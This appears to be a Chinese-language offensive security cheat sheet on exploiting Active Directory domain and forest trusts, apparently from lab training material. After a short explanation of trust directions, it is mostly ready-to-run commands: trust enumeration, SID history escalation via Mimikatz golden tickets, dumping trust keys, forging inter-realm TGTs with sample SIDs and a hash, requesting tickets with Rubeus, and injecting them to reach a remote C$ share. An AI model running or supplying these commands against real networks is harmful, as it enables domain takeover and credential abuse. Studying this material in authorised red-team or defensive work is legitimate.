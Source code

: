 	域之间的信任关系
	单程
	域 B 信任 A
	域 A 中的用户可以访问域 B 中的资源
	域 B 中的用户无法访问域 A 中的资源
	双向
	域 A 信任域 B
	域 B 信任域 A
	认证请求可以在两个域之间双向传递
 ### 枚举域之间的信任
  	>nltest /trusted_domains
	或者
	>([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
	返回
	SourceName          TargetName                    TrustType      TrustDirection
	----------          ----------                    ---------      --------------
	domainA.local      domainB.local                  TreeRoot       Bidirectional
 ### 利用域之间的信任
  	需要对当前域的域管理员级别访问权限
| Source     | Target  | Technique to use  |
|---|---|---|---|
| 根域      | 子域  | Golden Ticket + Enterprise Admin group (Mimikatz /groups) |
| 子域     | 子域  | SID History exploitation (Mimikatz /sids)                 |
| 子域     | 根域   | SID History exploitation (Mimikatz /sids)                 |
| 域林 A  | 域林 B  | PrinterBug + Unconstrained delegation ?  |
 ### 子域到域林 - SID劫持
  	大多数树都与双边信任关系相关联，以允许共享资源。
	要求：
	KRBTGT 哈希
	查找域的 SID
	Convert-NameToSid target.domain.com\krbtgt
	S-1-5-21-2941561648-383941485-1389968811-502

	使用Impacket
	lookupsid.py domain/user:password@10.10.10.10
	将 502 替换为 519 以代表 Enterprise Admins
	创建金票并攻击父域。
	>kerberos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:domain.local /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt
 ### 域林与域林
  	要求：禁用 SID 过滤
	从 DC 中，使用 Mimikatz 转储currentdomain\targetdomain$信任帐户的哈希（例如，使用 LSADump 或 DCSync）。然后，使用此信任密钥和域 SID，使用 Mimikatz 伪造一个跨域 TGT，将目标域的企业管理员组的 SID 添加到我们的SID 历史记录中。
 #### 转储信任密码（信任密钥）
  	查找末尾带有美元 ($) 符号的名称。大多数带有尾随$的帐户是计算机帐户，但有些是信任帐户
	>lsadump::trust /patch
 #### 使用 Mimikatz 创建伪造的信任票证（跨域 TGT）
  	mimikatz(commandline) # kerberos::golden /domain:domain.local /sid:S-1-5-21... /rc4:HASH_TRUST$ /user:Administrator /service:krbtgt /target:external.com /ticket:c:\temp\trust.kirbi
	mimikatz(commandline) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:moneycorp.local /ticket:c:\ad\tools\mcorp-ticket.kirbi
 #### 使用 Trust Ticket 文件获取目标服务的 TGS
	>.\asktgs.exe c:\temp\trust.kirbi CIFS/machine.domain.local
	>.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kirbi /service:LDAP/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
 #### 注入 TGS 文件并使用欺骗权限访问目标服务。
  	>kirbikator lsa .\ticket.kirbi
	>ls \\machine.domain.local\c$
